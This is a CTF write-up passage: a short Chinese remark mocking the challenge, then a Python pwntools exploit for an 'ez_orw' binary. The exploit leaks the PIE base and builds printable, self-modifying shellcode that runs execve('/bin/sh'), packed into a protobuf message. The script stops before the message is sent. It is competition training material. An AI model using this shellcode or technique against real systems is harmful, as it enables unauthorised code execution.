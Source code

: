 > 妥妥的烂题，沙箱不会写，RC4不会实现，整道题充斥着烂梗，能出这种题目的家里请什么都没用了。

## EXPLOIT

```python
from pwn import *
import string
import ez_orw_pb2
context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'amd64'
def GOLD_TEXT(x): return f'\x1b[33m{x}\x1b[0m'
EXE = './ez_orw'
printable = bytes(string.printable, 'utf-8')

def payload(lo: int):
    global t
    if lo:
        t = process(EXE)
        if lo & 2:
            gdb.attach(t)
    else:
        t = remote('', 9999)

    # run until protobuf msg input
    t.sendlineafter(b'DO U', b'0x0')
    t.sendlineafter(b'replenish\n', b'64') # set up shellcode max length
    pie_base = int(t.recv(14), 16) - 0x5008
    success(GOLD_TEXT(f'Got pie_base: {pie_base:#x}'))
    t.sendline(hex(pie_base + 0x3041).encode())

    code = '''
    // mov rbx, rax  # rax == shellcode
    push rax
    pop rbx
    // xor esi, esi; xor edx, edx
    push 0x20
    pop rax
    xor al, 0x20
    push rax
    push rax
    push rax
    pop rsi
    pop rdx
    // 2f2f -> 0f05
    push 0x20202020
    pop rcx
    xor word ptr [rbx + 0x20], cx
    // lea rdi, "/bin/sh"
    xor rax, qword ptr [rbx + 0x22]
    push rax
    push rsp
    pop rdi
    // mov eax, SYS_execve
    push 0x3b
    pop rax
    // syscall
    '''
    shellcode = asm(code) + b'\x2f\x25/bin/sh'
    assert len(shellcode) == 0x20 + 9 and all(byte in printable for byte in shellcode)
    message = ez_orw_pb2.Msgiao()
    message.giaoid = 0x114514
    message.giaosize = 0x415411
    message.giaotoken = b'87dd78e1-9025-4d57-9c2e-418608b3bbea'
    message.giaocontent = shellcode
```